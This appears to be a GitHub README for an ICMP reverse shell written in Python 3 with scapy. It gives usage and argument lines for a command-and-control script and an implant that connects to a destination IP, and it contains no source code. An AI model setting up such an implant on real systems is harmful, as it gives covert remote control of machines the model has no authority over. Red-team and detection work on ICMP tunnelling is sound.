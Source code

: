 # ICMP Reverse Shell in Python 3 
ICMP reverse shell with py3 scapy

Usage:
```bash
./icmp-cnc.py -i INTERFACE -d DESTINATION_IP (C&C)
./icmpdoor.py -i INTERFACE -d DESTINATION_IP (Implant)
```
Arguments:

```bash
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Listener (virtual) Network Interface (e.g. eth0)
  -d DESTINATION_IP, --destination_ip DESTINATION_IP
                        Destination IP address
  ```
# License
Berkeley Software Distribution (BSD)

# Author
[Jeroen van Kessel](https://twitter.com/jeroenvkessel) | [cryptsus.com](https://cryptsus.com) - we craft cyber security solutions
